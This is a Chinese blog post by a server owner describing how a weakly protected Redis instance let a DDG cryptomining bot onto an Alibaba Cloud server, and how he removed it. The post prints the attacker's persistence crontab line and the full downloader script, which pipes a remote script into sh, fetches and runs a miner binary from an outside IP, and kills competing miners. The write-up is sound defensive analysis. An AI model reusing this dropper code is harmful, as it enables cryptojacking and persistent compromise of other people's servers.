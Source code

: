 >emmm，长话短说，阿里云服务器被挂矿机了。

###   背景

事情还得从两三天前说起。7-31阿里云给我发了一个短信。
![](https://upload-images.jianshu.io/upload_images/5786888-153b90c3e0cc93fd.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


我还专门和朋友谈(chao)论(feng)Root被提权是什么鬼逻辑，然后就没理。。因为服务器是自己玩的用，开发阶段给前端暴露api用的，没什么重要的数据。然后：
![](https://upload-images.jianshu.io/upload_images/5786888-a9ea41fafe2364b6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

这个短信又发生在8-2号，What，大男子主义上来了，觉得这`13`有点过分了，有点变本加厉的意思了，然后就说去看看。（当时第一想法就是去看看进程有啥异样）

###   看一看
![](https://upload-images.jianshu.io/upload_images/5786888-7af4a104cb0d09ad.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

wtf，简直不要`13 face`，cpu占用99.3%，那我用0.7%吗。

#####    去`.ssh`目录看看
```
[root@FantJ .ssh]#  ls
authorized_keys
```
这可是无密登录的钥匙啊！用于主机之间的无密通信。果断删。

#####    查查这个命令在哪
```
[root@FantJ ~]#  find / -name qW3xT*
/tmp/qW3xT.2
```
#####    捕捉异常

![记住这个画面](https://upload-images.jianshu.io/upload_images/5786888-7eb3ca587ee35146.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![发现可疑线程](https://upload-images.jianshu.io/upload_images/5786888-49d46c7ce5967892.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![终止矿机脚本](https://upload-images.jianshu.io/upload_images/5786888-0c8b64423b572e1f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![又出来了](https://upload-images.jianshu.io/upload_images/5786888-d9ef8567598f2b07.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

我为什么会针对它：
1. PID号很大，证明是新线程
2. 每次我kill了矿机，它就会执行，然后就消失。（后面会证明这个言论）
3. 从cpu的稳定来看，没有执行新指令cpu一般均衡。

###   杀除相关进程
```
 1022  ps -aux|grep ddg
 1023  kill 11938
 1024  kill 27507
```

###   寻找`ddgs.3013`
```
[root@FantJ ~]#  find / -name ddgs.3013
/tmp/ddgs.3013
```

###   定时任务？
干了前面觉得还是没有弄干净，所以我想去看看定时任务列表。
```
[root@FantJ tmp]#  crontab -l

*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh
```
emmm，这一刻真是激动和喜悦。
```
curl 的这几个 optional 介绍,我也是百度的
-f  - fail在HTTP错误（H）上静默失败（根本没有输出）
-s  -silent静音模式。 不要输出任何东西
      --socks4 HOST [：PORT]给定主机+端口上的SOCKS4代理
      --socks4a HOST [：PORT]给定主机+端口上的SOCKS4a代理
      --socks5 HOST [：PORT]给定主机+端口上的SOCKS5代理
      --socks5-hostname HOST [：PORT] SOCKS5代理，将主机名传递给代理
      --socks5-gssapi-service名称为gssapi的SOCKS5代理服务名称
      --socks5-gssapi-nec与NEC SOCKS5服务器的兼容性
-S   --show-error显示错误。 使用-s时，make curl会在出现错误时显示错误
-L   --location遵循重定向（H）
      --location-trusted like --location并将auth发送给其他主机（H）
```
```
[root@FantJ tmp]#  crontab -r 
[root@FantJ tmp]#  crontab -l
no crontab for root
```
那又得查查这个i.sh了，突然想起有个定时任务，然后我把定时任务的job运行了以下：
```
[root@FantJ tmp]#  curl -fsSL http://149.56.106.215:8000/i.sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "" > /var/spool/cron/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/root


mkdir -p /var/spool/cron/crontabs
echo "" > /var/spool/cron/crontabs/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/crontabs/root


ps auxf | grep -v grep | grep /tmp/ddgs.3013 || rm -rf /tmp/ddgs.3013
if [ ! -f "/tmp/ddgs.3013" ]; then
    
    curl -fsSL http://149.56.106.215:8000/static/3013/ddgs.$(uname -m) -o /tmp/ddgs.3013
fi
chmod +x /tmp/ddgs.3013 && /tmp/ddgs.3013

ps auxf | grep -v grep | grep Circle_MI | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep get.bi-chi.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep hashvault.pro | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep nanopool.org | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep minexmr.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep /boot/efi/ | awk '{print $2}' | xargs kill
# ps auxf | grep -v grep | grep ddg.2006 | awk '{print $2}' | kill
# ps auxf | grep -v grep | grep ddg.2010 | awk '{print $2}' | kill
```
注意这个命令不会下载和执行sh脚本。因为我把管道符去掉了。看到的仅仅是打印的信息。
大概说下这个脚本的意思：
1. 设置环境变量，写定时任务
2. 查看ddgs.3013进程，如果没有该进程，重新下载该文件，然后给它加执行权限，并执行。
3. 批量根据关键字杀进程。

我发现有个`grep minexmr.com`.打开一看，其他网站同理。
![](https://upload-images.jianshu.io/upload_images/5786888-25b28efb02cd35c0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](https://upload-images.jianshu.io/upload_images/5786888-3aac197d756c3535.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](https://upload-images.jianshu.io/upload_images/5786888-d602168274bd5221.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

###   反思
>问题解决了，过段时间再看看进程情况，应该是没有了，可以说杀的挺彻底了。那么这问题为什么会出现呢。

还得回到阿里云给我的提示：redis。因为自己玩，所以redis的密码我设置的很简单`root`，被扫到也是很不费劲的事，然后我把密码进行改正。（通过配置文件`requirepass`或者`redis-cli``config set requirepass xxxx`），更安全的话，把bindIp设置成自己用的，然后更改默认端口。我没有重要数据，所以稍微意思下就行了，下次再来我再折腾。

不过这个`13`有个很良心的操作，就是没有删我的redis的keys，很有职业操守。但是还是被金钱奴隶。
